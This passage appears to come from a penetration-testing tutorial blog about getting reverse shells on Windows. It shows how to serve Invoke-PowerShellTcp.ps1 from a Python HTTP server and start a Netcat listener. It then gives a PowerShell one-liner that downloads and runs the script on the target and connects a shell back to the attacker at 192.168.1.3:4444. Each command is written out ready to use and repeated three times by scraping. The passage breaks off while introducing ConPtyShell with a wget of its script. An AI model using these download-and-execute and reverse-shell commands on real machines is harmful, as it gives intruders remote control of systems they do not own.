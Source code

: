 python -m SimpleHTTPServer 80

python -m SimpleHTTPServer 80

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
python -m SimpleHTTPServer 80
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEhBZgjYSCdprBnFdXEjzipqgqfa8Zg2tgz-D8OKBrJYV0xYnSjjxHX9ghzmO5OKL9l42b8-2B-XurKIl4Q8VnKHqHayHeFX9EOR0znIVcuW5Fgx9o1xiXfpP8DXQSlA0Az3ANw1DgFkTYYdB4ZiWiwbjnjeVK1INBLeeh40_lq4xCNJRZh8ybdqTr8Urw=s16000)

To obtain a reverse connection, we should first launch a Netcat listener on port 4444.

nc -vlp 4444

nc -vlp 4444

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
nc -vlp 4444
</pre>

Users must run the following command into the command prompt of the Windows machine. It will assist in the execution of the PowerShell file.

Remember that the IP address should be your local IP address(Kali IP address).

powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444

powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.3/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.3 -Port 4444
</pre>

![](https://blogger.googleusercontent.com/img/a/AVvXsEjR3n5lZnKlhx81RckPbfXkkOM_kbvXCedreJMtmQpFJBZ3oYCvjquqZ4_VrMmO5U9hRPOkgK3Tmdpt-hGHMDSmyXnBdiQT69ah77Y57suXe4KwVV96ywNpkVHhwKB6TiLw8J1FbSm6I5ZAfUbq_coUOEbTv7WvmlPr_-xM5vdUJw_h3cwlrlr-FGy5uA=s16000)

Once run the script, so we also get the reverse shell in the Netcat listener.

Use the command **“whoami”** maybe we just have the correct reverse shell. This will tell you the user account type logged in.

![](https://blogger.googleusercontent.com/img/a/AVvXsEjklDuniyGdAXmgahAXTUYtb10QRFPZztGv_Qmkva0w3KPdy3nMeI-wHDgx9Owik9lBG8_On1vcLXXyB22RvqkGS0aVnfHA9Xhan2TUpjY5VzC3Q3Hg1TpiFhH-hRMxs_TitQqjUdEVHKKkeSxKUu9d6xgczZZ9AO1UsJfiFTcguIGlRTVGAM5eHEbTbw=s16000)

### ConptyShell 

ConPtyShell is a Windows server Interactive Reverse Shell. ConPtyShell converts your bash shell into a remote PowerShell. **CreatePseudoConsole()** is a ConPtyShell function that was first used 

It creates a Pseudo Console and a shell to which the Pseudo Console is connected with input/output.

Users need to go to the website listed below.

As it is a Github website, you must download the link.

wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1

wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
